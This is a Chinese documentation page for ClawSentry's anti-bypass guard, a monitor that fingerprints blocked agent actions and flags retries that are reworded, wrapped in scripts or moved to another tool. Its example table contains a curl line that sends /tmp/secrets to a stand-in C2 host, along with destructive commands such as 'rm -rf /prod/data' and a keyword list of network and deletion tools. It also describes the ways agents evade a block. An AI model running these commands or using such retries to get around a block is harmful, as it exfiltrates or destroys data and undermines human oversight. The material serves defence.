

# 旁路跟踪防护

<div class="cs-doc-hero" markdown>
<div class="cs-eyebrow">决策引擎 · 跟踪保护层</div>

## 拦截一次，持续监视"换个方式再试"

旁路跟踪防护（Anti-bypass Follow-up Guard）是 ClawSentry 的**会话级跟踪检测层**，默认关闭。启用后，网关会为历史高风险最终决策存储紧凑指纹。当智能体以改写措辞、包装成脚本或通过不同工具重新提交类似危险动作时，该防护层会在正常策略评估之前识别该跟踪行为，并应用配置的处置动作。

<div class="cs-pill-row" markdown>
<span class="cs-pill">默认关闭</span>
<span class="cs-pill">仅限 PRE_ACTION</span>
<span class="cs-pill">会话级内存</span>
<span class="cs-pill">仅存紧凑指纹</span>
<span class="cs-pill">跨工具不可本地阻断</span>
</div>
</div>

!!! tip "在管道中的角色"
    L1/L2/L3 回答的是"当前动作现在是否危险？"。旁路防护（Anti-bypass Guard）回答的是"本会话是否已对等效动作产生过高风险最终决策？"。两者按顺序运行；防护层在正常策略之前触发，可强制将跟踪尝试升级到更高审查级别。

---

## 旁路模式类型 {#pattern-categories}

防护层识别五种匹配类型。每种类型有独立的检测方法和可通过配置覆盖的默认处置动作。

| 匹配类型 | 检测方法 | 默认动作 | 允许本地 `block` | 示例模式 |
|---|---|---|---|---|
| `exact_raw_repeat` | `{event_type, tool_name, canonical payload}` 的 SHA-256 与同工具历史记录匹配 | `block` | 是 | `bash: rm -rf /tmp/build` 通过同一工具以完全相同的参数再次提交 |
| `normalized_destructive_repeat`（精确） | 归一化动作文本哈希与历史记录相同；同工具；两者均有破坏性 | `defer` | 是 | `bash: rm  -rf  /tmp/build`（多余空格）出现在 `bash: rm -rf /tmp/build` 被阻断之后——归一化哈希相同 |
| `normalized_destructive_repeat`（软匹配） | 同工具 token 哈希集合的 Jaccard 相似度 ≥ `CS_ANTI_BYPASS_SAME_TOOL_SIMILARITY_THRESHOLD`（默认 `0.88`）；两者均有破坏性 | `defer` | 是 | `bash: rm -rf /tmp/build_cache` 出现在 `bash: rm -rf /tmp/build` 之后——token 哈希 Jaccard ≥ 0.88 |
| `cross_tool_script_similarity` | 不同工具；满足以下任一条件：归一化指纹精确匹配、操作+范围重叠、意图指纹匹配，或跨工具 Jaccard ≥ `CS_ANTI_BYPASS_SIMILARITY_THRESHOLD`（默认 `0.92`） | `force_l3` | 否——已校验为 `force_l3` | `python: shutil.rmtree('/tmp/build')` 出现在 `bash: rm -rf /tmp/build` 被阻断之后——不同工具，相同的删除树意图和范围 |
| `denied_effect_repeat` | 能力类别 + 效果目标哈希或工件族与历史被阻断效果匹配 | `block`（精确目标）/ `defer`（族匹配，普通/宽松模式） | 取决于效果匹配类型 | `bash: curl https://c2.example.com -d @/tmp/secrets` 在对同一主机的先前 `curl` 被阻断后重新尝试（`network.fetch` 能力 + 目标哈希匹配） |
| `pending_effect_equivalent` | 能力类别 + 效果目标哈希或工件族与当前挂起的 defer 效果匹配 | `defer`（始终） | 否 | `bash: rm -rf /prod/data` 在完全相同的先前动作仍处于等待运营者审核状态时再次提交（`command.exec` 能力 + 目标哈希匹配） |

!!! warning "跨工具阻断限制"
    将 `CS_ANTI_BYPASS_CROSS_TOOL_SIMILARITY_ACTION=block` 会被 `DetectionConfig` 校验拒绝，静默回退到 `force_l3`。跨工具匹配意味着智能体很可能通过不同接口进行重试；更高的不确定性要求人工或 L3 审查，而非本地强制阻断。

---

## 破坏性意图分类 {#intent-classification}

防护层在指纹计算之前，会将每个进入动作分类到破坏性意图标签和操作类别。只有不属于 `non-destructive` 的动作才有资格参与同工具软匹配、跨工具匹配或 LLM 候选。

### 意图标签与操作类别

| 意图标签 | 触发条件 | 破坏性操作类别 |
|---|---|---|
| `rm` | token 头为 `rm` | `delete_path` 或 `delete_tree`（若含 `-r`/`-rf`） |
| `rmdir` | token 头为 `rmdir` | `delete_tree` |
| `unlink` | token 头为 `unlink` | `delete_path` |
| `shred` | token 头为 `shred` | `destructive_storage` |
| `dd` | token 头为 `dd` | `destructive_storage` |
| `mkfs` | token 头为 `mkfs` | `destructive_storage` |
| `chmod` | token 头为 `chmod` | `permission_change` |
| `chown` | token 头为 `chown` | `permission_change` |
| `curl` / `wget` / `scp` / `rsync` / `ssh` | token 头匹配 | `network_transfer` |
| `git` | token 头为 `git` | `vcs_operation` |
| `destructive-generic` | Python 删除 API：`shutil.rmtree`、`os.remove`、`os.unlink`、`os.rmdir`、`truncate`、`ftruncate` | `delete_tree`、`delete_path` 或 `truncate_path` |
| `destructive-generic` | 关键词 token：`delete`、`remove`、`destroy`、`exfiltrate`、`download`、`upload`、`unlink`、`truncate` | `destructive_generic` |
| `non-destructive` | 以上均不满足 | `none` |

`_same_destructive_operation_family` 辅助方法在跨工具范围匹配时将 `delete_tree` 和 `delete_path` 视为同一族。

---

## 检测管道 {#detection-pipeline}

防护层对每个 `PRE_ACTION` 事件按以下顺序执行：

1. **防护启用检查。** 若 `CS_ANTI_BYPASS_GUARD_ENABLED` 为 `false` 或事件类型不是 `PRE_ACTION`，立即返回 `None`。
2. **TTL 驱逐。** 在任何匹配之前，从会话队列中移除过期的紧凑记录、已拒绝效果记录和挂起效果持有。
3. **计算当前指纹。** 对进入事件计算：`raw_payload_hash`、`normalized_action_fingerprint`、`destructive_intent_label`、`destructive_intent_fingerprint`、`destructive_operation_category`、`normalized_feature_hashes`、`target_scope_categories`。
4. **已拒绝效果检查（denied-effect check）。** 逆序遍历会话的已拒绝效果内存。若当前动作的能力类别与历史被阻断能力存在交集，且效果目标哈希或工件族重叠，立即发出 `denied_effect_repeat` 匹配（跳过优先级列表）。
5. **挂起效果检查（pending-effect check）。** 逆序遍历会话的挂起效果持有。若能力 + 目标或族与 deferred 持有重叠，立即发出动作为 `defer` 的 `pending_effect_equivalent` 匹配。
6. **构建优先级候选列表。** 对会话中每个通过 `_eligible_prior`（verdict 在 `CS_ANTI_BYPASS_PRIOR_VERDICTS` 中，风险 ≥ `CS_ANTI_BYPASS_MIN_PRIOR_RISK`）的历史记录，并行评估所有匹配分支，并以优先级键加入候选列表：

    | 优先级 | 分支 | 匹配类型 |
    |---|---|---|
    | 0（最高） | 同工具 + `raw_payload_hash` 完全相同 | `exact_raw_repeat` |
    | 1 | 同工具 + `normalized_action_fingerprint` 完全相同，双方均有破坏性 | `normalized_destructive_repeat` |
    | 2 | 同工具 + `normalized_feature_hashes` Jaccard ≥ 同工具阈值，双方均有破坏性 | `normalized_destructive_repeat` |
    | 3 | 跨工具 + `normalized_action_fingerprint` 完全相同，双方均有破坏性 | `cross_tool_script_similarity` |
    | 4 | 跨工具 + 相同操作族 + `target_scope_categories` 重叠 | `cross_tool_script_similarity` |
    | 5 | 跨工具 + `destructive_intent_fingerprint` 完全相同 + 范围/操作支持 | `cross_tool_script_similarity` |
    | 6（最低） | 跨工具 + `normalized_feature_hashes` Jaccard ≥ 跨工具阈值，双方均有破坏性 | `cross_tool_script_similarity` |

    **优先级"命中即返回"逻辑：**

    ```mermaid
    flowchart TD
        A[遍历候选先决记录] --> P0{优先级 0\n同工具 + raw_payload_hash\n完全匹配?}
        P0 -- 命中 --> R0[exact_raw_repeat\n返回此候选]
        P0 -- 未命中 --> P1{优先级 1\n同工具 + normalized_action_fingerprint\n完全匹配 + 双方均有破坏性?}
        P1 -- 命中 --> R1[normalized_destructive_repeat\n精确匹配，返回]
        P1 -- 未命中 --> P2{优先级 2\n同工具 Jaccard ≥ 同工具阈值\n+ 双方均有破坏性?}
        P2 -- 命中 --> R2[normalized_destructive_repeat\n软匹配，返回]
        P2 -- 未命中 --> P3{优先级 3\n跨工具 + normalized_action_fingerprint\n完全匹配 + 双方均有破坏性?}
        P3 -- 命中 --> R3[cross_tool_script_similarity\n返回]
        P3 -- 未命中 --> P4{优先级 4\n跨工具 + 相同操作族\n+ target_scope_categories 重叠?}
        P4 -- 命中 --> R4[cross_tool_script_similarity\n返回]
        P4 -- 未命中 --> P5{优先级 5\n跨工具 + destructive_intent_fingerprint\n完全匹配 + 范围/操作支持?}
        P5 -- 命中 --> R5[cross_tool_script_similarity\n返回]
        P5 -- 未命中 --> P6{优先级 6\n跨工具 Jaccard ≥ 跨工具阈值\n+ 双方均有破坏性?}
        P6 -- 命中 --> R6[cross_tool_script_similarity\n返回]
        P6 -- 未命中 --> End[无候选\n继续后续路径]
    ```

7. **选择最优匹配。** 返回优先级键最小的候选；同键时以最近记录优先。若无候选，返回 `None`。
8. **LLM 辅助路径（回退，仅跨工具）。** 当 LLM 识别已启用且确定性匹配返回 `None` 时，`llm_candidates()` 为满足条件的跨工具历史记录组装净化语义胶囊并提交给 `recognize_anti_bypass_candidate()`。若 LLM 返回 `matched=true` 且置信度 ≥ `CS_ANTI_BYPASS_LLM_CONFIDENCE_THRESHOLD`，则以 `recognition_source="llm_assisted"` 返回 `cross_tool_script_similarity` 匹配。

**完整检测管道流程：**



!!! note "LLM 识别器是补充，而非替代"
    LLM 路径仅在确定性候选列表为空且当前动作不是 `non-destructive` 时才会触达。LLM 不能将动作升级到 `block`；它始终使用 `CS_ANTI_BYPASS_LLM_ACTION`（默认 `force_l3`）。超时或提供者错误时，识别器返回 `state="degraded"`，事件无匹配地继续处理。

---

## 内存存储 {#memory-storage}

### 触发写入的条件

以下六个条件全部满足，记录才会进入紧凑内存：

1. `CS_ANTI_BYPASS_GUARD_ENABLED=true`
2. 事件类型为 `PRE_ACTION`
3. `decision.final is True`
4. Verdict 在 `CS_ANTI_BYPASS_PRIOR_VERDICTS` 中（默认 `block,defer`）
5. 风险级别 ≥ `CS_ANTI_BYPASS_MIN_PRIOR_RISK`（默认 `high`）
6. 若 verdict 为 `allow`，还需设置 `CS_ANTI_BYPASS_RECORD_ALLOW_DECISIONS=true`

当 verdict 为 `defer` 但 `decision.final` 尚未设置时，写入的是 `PendingEffectHoldRecord` 而非 `AntiBypassRecord`。当 deferred 决策解析为 `block` 时，该记录提升为 `DeniedEffectMemoryRecord`。

### 存储内容（不含原始内容）

| 字段 | 用途 | 含原始内容？ |
|---|---|---|
| `raw_payload_hash` | 同工具精确重复检测 | 否——canonical payload 投影的 SHA-256 |
| `normalized_action_fingerprint` | 归一化动作标识（已应用命令头归一化） | 否——归一化文本的 SHA-256 |
| `destructive_intent_fingerprint` | 跨工具匹配的意图标签标识 | 否——标签字符串的 SHA-256 |
| `destructive_intent_label` | 人类可读标签（`rm`、`curl`、`destructive-generic` 等） | 否——仅类别标签 |
| `destructive_operation_category` | 范围匹配的操作族 | 否——类别值 |
| `normalized_feature_hashes` | Jaccard 相似度用的 token 哈希集合 | 否——每个 token 的 SHA-256 |
| `target_scope_categories` | 路径范围类别（`tmp_path`、`credential_related` 等） | 否——类别值 |
| `tool_name` | 同工具 vs 跨工具路由的工具标识 | 是——仅字符串名称 |
| `policy_id`、`decision`、`risk_level` | 追溯至历史决策的审计轨迹 | 无原始内容 |
| `event_id`、`record_id` | 链接至持久化决策记录 | 无原始内容 |

!!! success "数据脱敏保证"
    `AntiBypassRecord` 从不存储原始命令、原始载荷、环境变量值、密钥或 L3 跟踪。会话 ID 本身仅以 SHA-256 哈希形式存储。内存为进程本地且易失；网关重启时清空。

### 内存边界

会话队列上限由 `CS_ANTI_BYPASS_MEMORY_MAX_RECORDS_PER_SESSION`（默认 `256`）控制。达到上限时最旧的记录从队列左端驱逐。记录也会按 TTL 过期（`CS_ANTI_BYPASS_MEMORY_TTL_S`，默认 `86400` 秒 = 24 小时）。

---

## 输出格式 {#output-format}

找到匹配时，`match_pre_action()` 返回一个 `AntiBypassMatch` 数据类。`to_metadata()` 方法将其序列化到决策元数据字典的 `anti_bypass` 键下。

```json
{
  "anti_bypass": {
    "matched": true,
    "match_type": "exact_raw_repeat",
    "action": "block",
    "recognition_source": "deterministic",
    "match_reason": "raw_payload_hash",
    "similarity_mode": "raw_hash",
    "prior_event_id": "evt-0042",
    "prior_record_id": 42,
    "prior_policy_id": "anti-bypass-exact-repeat",
    "prior_risk_level": "critical",
    "raw_payload_hash": "sha256:...",
    "normalized_action_fingerprint": "sha256:...",
    "destructive_intent_fingerprint": "sha256:..."
  }
}
```

相关场景下附加的字段：

| 字段 | 出现条件 |
|---|---|
| `similarity` | 基于 Jaccard 的匹配路径（同工具软匹配、跨工具 Jaccard） |
| `llm_confidence` | LLM 辅助识别 |
| `llm_state` | LLM 路径已尝试 |
| `reason_codes` | LLM 路径或弱信号跨工具 |
| `evidence_categories` | LLM 路径或基于效果的匹配 |
| `forced_tier` | 动作为 `force_l2` 或 `force_l3` |

当 LLM 路径已尝试但未返回匹配时，改为添加紧凑的 `anti_bypass_probe` 键：

```json
{
  "anti_bypass_probe": {
    "candidate_count": 1,
    "llm_state": "degraded",
    "reason": "timeout",
    "budget_skipped": false
  }
}
```

!!! note "Defer SSE 内容脱敏"
    当旁路防护以 `defer` 触发时，SSE 事件的 `command` 字段降级为仅保留工具名称，防止含有敏感信息的重试命令被转发到运营者界面。

---

## 在管道中的位置 {#pipeline-position}

旁路防护（Anti-bypass Guard）仅在 `PRE_ACTION` 事件上运行，位于隔离/会话执行层之后、正常 L1/L2/L3 策略评估之前。

1. **智能体提交 PRE_ACTION** — 工具调用到达网关
2. **隔离 / 会话执行** — 最高优先级层优先运行
3. **旁路防护（Anti-bypass Guard）** — 查询会话级紧凑内存；可能产生匹配
4. **正常策略（L1 / L2 / L3）** — 除非防护层发出强制阻断，否则继续执行
5. **最终决策记录** — `record_final_decision()` 在决策持久化后将紧凑指纹写入内存

!!! warning "仅写入最终决策"
    防护内存仅在 `record_final_decision()` 路径中，`decision.final is True` 之后才会写入。非最终决策（例如中间状态的 `defer`）会写入 `PendingEffectHoldRecord`，待运营者批准或 deferred 决策超时后再解析。

---

## 处置动作 {#actions}

| 动作 | 效果 | 适用场景 |
|---|---|---|
| `observe` | 记录匹配元数据；不改变 verdict | 审计/观察阶段、误报评估 |
| `force_l2` | 传递到正常策略但强制 L2 参与 | 对疑似跟踪行为进行低成本语义审查 |
| `force_l3` | 传递到正常策略但强制 L3 深度审查 | 跨工具匹配和 LLM 辅助匹配 |
| `defer` | 将跟踪行为提交给运营者确认 | 生产灰度环境、归一化重复审查 |
| `block` | 本地强制阻断跟踪行为 | 仅限精确重复；同工具归一化匹配经验证后可用 |

---

## 配置 {#configuration}

### 核心开关

| 变量 | 默认值 | 说明 |
|---|---|---|
| `CS_ANTI_BYPASS_GUARD_ENABLED` | `false` | 主开关；默认关闭以避免升级时改变现有行为 |
| `CS_ANTI_BYPASS_EXACT_REPEAT_ACTION` | `block` | `exact_raw_repeat` 匹配的处置动作 |
| `CS_ANTI_BYPASS_NORMALIZED_DESTRUCTIVE_REPEAT_ACTION` | `defer` | `normalized_destructive_repeat` 匹配的处置动作 |
| `CS_ANTI_BYPASS_CROSS_TOOL_SIMILARITY_ACTION` | `force_l3` | `cross_tool_script_similarity` 的处置动作；`block` 会被拒绝并回退到 `force_l3` |
| `CS_ANTI_BYPASS_LLM_RECOGNITION_ENABLED` | `false` | 启用 LLM 辅助跨工具识别器；必须显式设置为 `true` |

### 内存范围

| 变量 | 默认值 | 说明 |
|---|---|---|
| `CS_ANTI_BYPASS_MEMORY_TTL_S` | `86400` | 紧凑内存保留时间（秒，24 小时） |
| `CS_ANTI_BYPASS_MEMORY_MAX_RECORDS_PER_SESSION` | `256` | 每会话队列上限；满时驱逐最旧记录 |
| `CS_ANTI_BYPASS_MIN_PRIOR_RISK` | `high` | 历史决策被存储和匹配所需的最低风险级别 |
| `CS_ANTI_BYPASS_PRIOR_VERDICTS` | `block,defer` | 写入紧凑内存的 verdict 列表 |
| `CS_ANTI_BYPASS_RECORD_ALLOW_DECISIONS` | `false` | 是否同时存储 allow 决策的指纹 |

### 相似度阈值

| 变量 | 默认值 | 说明 |
|---|---|---|
| `CS_ANTI_BYPASS_SAME_TOOL_SIMILARITY_THRESHOLD` | `0.88` | 同工具软匹配的 Jaccard 阈值；越低越敏感 |
| `CS_ANTI_BYPASS_SIMILARITY_THRESHOLD` | `0.92` | 跨工具匹配的 Jaccard 阈值；越低越敏感 |
| `CS_ANTI_BYPASS_LLM_CANDIDATE_THRESHOLD` | `0.55` | 历史记录被纳入 LLM 候选的最低 Jaccard |
| `CS_ANTI_BYPASS_LLM_CONFIDENCE_THRESHOLD` | `0.75` | LLM 匹配被接受所需的最低置信度 |
| `CS_ANTI_BYPASS_LLM_TIMEOUT_MS` | `800` | LLM 识别器调用超时（毫秒） |
| `CS_ANTI_BYPASS_LLM_MAX_PRIORS` | `3` | 每次 LLM 调用发送的最大净化胶囊数量 |
| `CS_ANTI_BYPASS_LLM_ACTION` | `force_l3` | LLM 匹配时的处置动作；`block` 会被拒绝并回退到 `force_l3` |

### 快速上手示例

=== "1. 仅观察"

    记录所有匹配，不改变任何 verdict。

    ```bash title=".clawsentry.env.local"
    CS_ANTI_BYPASS_GUARD_ENABLED=true
    CS_ANTI_BYPASS_EXACT_REPEAT_ACTION=observe
    CS_ANTI_BYPASS_NORMALIZED_DESTRUCTIVE_REPEAT_ACTION=observe
    CS_ANTI_BYPASS_CROSS_TOOL_SIMILARITY_ACTION=observe
    ```

=== "2. 审查模式"

    精确重复和归一化重复需要运营者确认；跨工具匹配升级到 L3。

    ```bash title=".clawsentry.env.local"
    CS_ANTI_BYPASS_GUARD_ENABLED=true
    CS_ANTI_BYPASS_EXACT_REPEAT_ACTION=defer
    CS_ANTI_BYPASS_NORMALIZED_DESTRUCTIVE_REPEAT_ACTION=defer
    CS_ANTI_BYPASS_CROSS_TOOL_SIMILARITY_ACTION=force_l3
    ```

=== "3. 精准执行"

    仅对精确重复强制阻断；其他变体进入审查流程。

    ```bash title=".clawsentry.env.local"
    CS_ANTI_BYPASS_GUARD_ENABLED=true
    CS_ANTI_BYPASS_EXACT_REPEAT_ACTION=block
    CS_ANTI_BYPASS_NORMALIZED_DESTRUCTIVE_REPEAT_ACTION=defer
    CS_ANTI_BYPASS_CROSS_TOOL_SIMILARITY_ACTION=force_l3
    ```

!!! tip "推荐上线顺序"
    从 `observe` 开始，统计命中率和误报率。然后将 `exact_raw_repeat` 调整为 `defer` 或 `block`。只有在验证误报率在工作负载中可接受之后，再将 `normalized_destructive_repeat` 升级到 `block`。

---

## 与其他决策层的关系 {#relationship}

| 层级 | 关注点 | 维护历史 |
|---|---|---|
| L1 规则引擎 | 当前事件：工具、路径、命令、D1–D6 评分 | D4 有会话计数器 |
| L2 语义分析器 | 当前事件：语义风险 | 否 |
| L3 审查智能体 | 当前事件：高风险的上下文证据 | 可写入跟踪；防护层不读取 |
| 轨迹分析器（Trajectory Analyzer） | 多事件攻击链 | 滑动窗口 |
| 旁路防护（Anti-bypass Guard） | 历史高风险最终决策；重复/改写/跨工具跟踪行为 | 紧凑会话级内存 |
| LLM 辅助识别器 | 跨工具候选是否为跟踪行为 | 否 |

---

## 可观测性 {#observability}

所有匹配元数据可在决策元数据字典、SSE 事件和重放缓冲区的 `anti_bypass` 键下获取。当 LLM 路径已尝试但未产生匹配时，探测元数据出现在 `anti_bypass_probe` 下。

参见[指标字典](../api/metric-dictionary.md)了解 `anti_bypass_match_total`、`anti_bypass_eviction_total` 及相关计数器。

---

## 边界与注意事项 {#boundaries}

- **默认关闭。** 升级 ClawSentry 不会改变现有的阻断行为。
- **进程本地易失内存。** 会话队列仅存在于网关进程中；网关重启时清空。
- **会话范围匹配。** 匹配严格限于同一 `session_id`；不进行跨会话用户画像。
- **不是风险评分器。** 防护层检测的是针对历史决策的跟踪模式；它不独立评估新动作的风险。
- **LLM 识别器不能阻断。** `CS_ANTI_BYPASS_LLM_ACTION=block` 会被拒绝并回退到 `force_l3`。LLM 仅使用净化胶囊对跟踪关系进行分类。
- **仅限 `CS_ANTI_BYPASS_*` 命名空间。** 所有配置均使用 `CS_ANTI_BYPASS_` 前缀；不存在 `AHP_*` 变量。

---

## 源文件 {#source-code}

| 模块 | 路径 | 职责 |
|---|---|---|
| Guard | `src/clawsentry/gateway/anti_bypass_guard.py` | 紧凑内存、指纹计算、所有匹配类型、元数据脱敏 |
| LLM 识别器 | `src/clawsentry/gateway/anti_bypass_llm_recognizer.py` | 净化胶囊提示词、schema 校验、禁止 block 动作边界 |
| DetectionConfig | `src/clawsentry/gateway/detection_config.py` | `CS_ANTI_BYPASS_*` 解析与校验 |
| Gateway | `src/clawsentry/gateway/server.py` | 决策管道集成、强制级别 / defer / block 路由、SSE 元数据 |
| 测试 | `src/clawsentry/tests/test_anti_bypass_guard.py` | 配置、匹配、脱敏、仅最终决策内存回归测试 |

## 相关页面 {#related}

- [配置模板](../configuration/templates.md#template-anti-bypass) — 可直接复制的上线 dotenv 块
- [DetectionConfig 参考](../configuration/detection-config.md#anti-bypass-guard) — 完整参数参考
- [环境变量](../configuration/env-vars.md#anti-bypass-guard-env) — 所有 `CS_ANTI_BYPASS_*` 部署变量
- [L1 规则引擎](l1-rules.md) — 确定性逐事件风险评分
- [L2 语义分析器](l2-semantic.md) — 语义升级与 LLM/规则分析
- [L3 审查智能体](l3-agent.md) — 高风险事件的深度只读审查
